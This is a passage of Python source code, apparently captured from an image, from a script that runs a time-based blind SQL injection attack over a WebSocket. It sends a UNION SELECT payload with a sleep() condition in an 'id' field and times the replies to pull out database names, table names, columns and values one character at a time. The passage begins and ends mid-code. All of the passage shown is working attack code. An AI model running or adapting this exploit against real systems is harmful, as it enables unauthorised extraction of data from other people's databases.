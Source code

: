 ```python
	for limitIterator in range(11):
		valueToFind = ""
		actualValue.status(valueToFind)
		flag = False
		sqlValueToFindFormated = sqlValueToFind % limitIterator
		for charIterator in range(1,100):
			for letter in alphabet:
				payload = '''"" or 1=1 union select 1,2,if(binary substr(%s,%d,1) = '%s', sleep(11),0) -- -''' % (sqlValueToFindFormated,charIterator,letter)
				data = {
						"id": payload,
				}

				bar.status(f"Trying {sqlValueToFindFormated} with letter {letter} on position {charIterator}")

				dataJSON = json.dumps(data)
				startTime = time.time()
				ws.send(dataJSON)
				ws.recv()
				endTime = time.time()
				respTime = endTime - startTime
				if respTime > 11:
					valueToFind += letter
					actualValue.status(valueToFind)
					break
				elif letter == alphabet[-1]:
					flag = True
					break
			if flag == True:
				break
		if flag == True and valueToFind == "":
			return True
			break
		log.info(f"  •{valueToFind}")
		values[index].append(valueToFind)

def def_handler(sig, frame):
        print("\n\n[!] Saliendo...\n")
        sys.exit(1)

#Ctrl + c
signal.signal(signal.SIGINT, def_handler)

bar = log.progress("SQLI Timed based")
bar.status("Starting")
actualValue = log.progress("Actual value")

for index in sqlValuesToFind:
	print("-----------------------------------------------------------------------------------")
	log.info(f"{index}:")
	sqlValueToFindParameters = sqlValuesToFind[index]
	if len(values["DatabasesName"]) > 0:
		for databaseName in values["DatabasesName"]:
			log.info(f"DB: {databaseName}:")
			sqlValueToFindDatabase = formatOne(sqlValuesToFind[index],"databaseName",databaseName)
			if len(values["TablesName"]) > 0:
				for tableName in values["TablesName"]:
					log.info(f"Table: {tableName}:")
					sqlValueToFindTables = formatOne(sqlValueToFindDatabase,"tableName",tableName)
					if len(values["ColumnsName"]) > 0:
						columnsToConcat = (",".join(values["ColumnsName"]))
						log.info(f"  Columns: {columnsToConcat}:")
```